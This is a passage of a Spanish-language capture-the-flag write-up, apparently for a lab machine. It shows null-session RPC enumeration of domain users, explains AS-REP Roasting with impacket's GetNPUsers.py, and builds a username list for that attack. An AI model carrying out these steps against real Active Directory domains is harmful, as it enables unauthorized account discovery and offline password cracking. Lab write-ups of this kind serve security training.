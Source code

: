 ```bash
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[abc] rid:[0x2581]
rpcclient $> 
```

He conseguido listar todos los usuarios del dominio a traves de RPC, debido a que permitia sesiones nulas. Bien, teniendo una lista de usuarios y el Kerberos abierto podemos intentar un ASREPRoast. 

> El ataque ASREPRoast busca usuarios sin necesidad de autenticación previa de Kerberos. Eso significa que cualquiera puede enviar una solicitud AS_REQ al KDC en nombre de cualquiera de esos usuarios y recibir un mensaje AS_REP. Este último tipo de mensaje contiene una parte de los datos cifrados con la clave de usuario original, derivados de su contraseña.

Para este ataque vamos a usar impacket, impacket incorpora un montón de herramientas y entre ellas GetNPUsers.py que permite hacer este tipo de ataques.

```bash
❯ cat users | cut -d '[' -f2 | cut -d ']' -f1 > users.txt

Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
abc
```